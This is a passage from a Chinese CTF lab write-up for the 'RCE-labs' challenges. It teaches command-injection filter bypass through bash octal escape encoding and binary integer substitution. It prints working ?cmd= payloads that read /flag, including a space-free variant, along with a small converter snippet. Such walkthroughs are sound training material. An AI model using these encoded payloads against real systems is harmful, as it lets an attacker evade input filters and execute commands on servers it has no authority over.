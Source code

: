 > 当sh指向busybox时，我们讲无法使用后面会讲到的变换特性，这也是该方法的一大局限性。
>
> 一般情况下在debian系操作系统中，sh指向dash；在centos系操作系统中，sh指向bash；

#### Level 9 - 八进制

如`ls` 可以通过`$'\154\163'` 的方式进行执行。

```
root@Hello-CTF:/home# $'\154\163'
Challenge  Hello-CTF_labs  PHPSerialize-labs  PHPinclude-labs  RCE-labs
```

你可以尝试去dash中执行，你会发现dash是无法解析他们的：

```
# $'\154\163'
dash: 1: $\154\163: not found
```

若 sh 的软连接指向 dash，那么用system函数也类似：

```
# $'\154\163'
sh: 1: $\154\163: not found
```

但是这种方法的缺陷就是无法一连串的指向带参命令，只能拆分开来：

```
bash-5.1# $'\143\141\164\40\57\146\154\141\147'
bash: cat /flag: No such file or directory

bash-5.1# $'\143\141\164' $'\57\146\154\141\147'
flag{TEST_Dynamic_FLAG}
```

不过好在关卡并没有禁用空格，你可以将他们写开：

A+空格+B：

```
?cmd=$'\143\141\164' $'\57\146\154\141\147'
```

当然如果禁用了空格，根据它允许字符集，你也可以使用:

```
?cmd=$'\143\141\164'<$'\57\146\154\141\147'
```

#### Level 10 - 二进制整数替换

引入了新的特性 —— 在bash中，支持二进制的表示整数的形式：`$((2#binary))`。

通过这一特性，我们可以使用二进制来构造八进制的整数形式 —— 注意这里并不是讲八进制转换为二进制，这里其实是用二进制来替换八进制中的每一位数字，如果你能读懂一些py或者js的源码，我们的转换器在这里基于下面的语句实现：

```js
function getOct(c) {
    return c.charCodeAt(0).toString(8); // 将字符的ASCII值转换为八进制字符串
}
binaryStr=parseInt(getOct(c), 10).toString(2); // 将八进制以十进制的方式转换为二进制
```
